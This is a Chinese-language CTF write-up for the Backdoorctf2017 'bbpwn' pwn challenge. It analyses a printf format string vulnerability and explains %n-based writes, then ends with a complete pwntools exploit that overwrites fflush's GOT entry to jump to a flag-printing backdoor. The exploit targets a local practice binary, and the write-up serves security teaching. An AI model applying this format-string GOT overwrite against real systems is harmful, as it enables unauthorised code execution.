 ```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: nightmare 3.1.Backdoorctf2017 bbpwn-wp
date: 2023-08-24 09:31:48
tags:
- CTF
- pwn
- fmt_str
- stack 
- got  
- Backdoorctf2017
- nightmare
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/10-fmt_strings/backdoor17_bbpwn)  

## 文件分析

```sh
$ checksec 32_new
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    
$ ./32_new
Hello baby pwner, whats your name?
guyinatuxedo
Ok cool, soon we will know whether you pwned it or not. Till then Bye guyinatuxedo
```

## 代码分析

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp) {
  char s[200]; // [esp+18h] [ebp-200h] BYREF
  char format[300]; // [esp+E0h] [ebp-138h] BYREF
  unsigned int v5; // [esp+20Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  puts("Hello baby pwner, whats your name?");
  fflush(stdout);
  fgets(s, 200, edata);
  fflush(edata);
  sprintf(format, "Ok cool, soon we will know whether you pwned it or not. Till then Bye %s", s);
  fflush(stdout);
  printf(format);
  fflush(stdout);
  exit(1);
}

void flag(void) {
  system("cat flag.txt");
  return;
}
```

1. 11# 获取输入置于`format`中
2. 13# 直接输出format（存在格式化字符串漏洞）
3. 18# 有后门函数flag

## 攻击方法

因为栈上地址无法泄露，我们不可获取栈地址从而写返回地址

但是main最后还调用了库函数`fflush`，我们可以改写got表中它的真实地址为`flag`函数的地址，从而获取flag

### %n作用

把截至目前成功输出的字符数量以`int`型数据格式写入到对应地址

### %{num}$x作用

指定第`{num}`个参数进行输出/写入     那么`printf("hhh%2$n", a, b)`也就是将`3`写入第二个参数`b`**指向的内存（注意不是改写b本身）**

### 覆盖方式

从低字节向高字节覆盖，注意写入的值**只增不减** （因为输出只会多不会少），但我们通常只要保证低字节位为我们想要的值即可，溢出可以继续被覆盖

例：		假如我们想写入`0x0862`，但我们目前就已经输出了`0x70`个字符

1. 法一：首先凑满`0x162`写入最低地址，再凑够`0x208`写入地址加一，假设溢出对后面没有太大影响的话就已经写入成功

   ```assembly
   |62|01|
   |62|08|02|
   ```

2. 法二：直接凑够`0x862`个字符写入

   ```
   |62|08|
   ```

## exp

```python
from pwn import *
from ctypes import *
import sys
context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./32_new")
belf = ELF("./32_new")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

gscript = '''
    b main
    b * 0x080487D7
	c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

flag = 0x0804870B
main = 0x08048724
fflush_got = belf.got['fflush']
payload = p32(fflush_got)			
payload += p32(fflush_got + 1) + p32(fflush_got + 3)
payload += b'%185d%10$n'        # 0x10b-82=185		前面的输出就已经有82了，我们在最低字节处写入0x10b
payload += b'%892d%11$n'       # 0x487-0x10b=892	第二字节处写入0x0487
payload += b'%129d%12$n'        # 0x508-0x487=129	最后一个字节处写入0x0508

sla(b'name?', payload)
pi()
pause()
```




---